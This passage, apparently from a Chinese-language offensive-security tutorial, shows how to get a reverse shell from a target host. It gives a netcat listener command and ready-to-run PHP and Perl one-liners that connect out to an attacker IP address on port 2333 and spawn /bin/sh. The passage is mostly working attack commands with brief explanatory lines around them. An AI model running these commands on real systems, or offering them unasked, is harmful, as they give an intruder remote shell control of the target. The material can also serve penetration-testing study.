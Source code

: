 [![image-20210505233608622](images/image-20210505233608622.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205830-9aa69d70-a433-1.png)

### php 脚本反弹shell

当目标主机上有php环境时，我们可以用php来反弹shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Perl 脚本反弹shell

当目标主机上有perl环境时，我们可以用perl来反弹shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
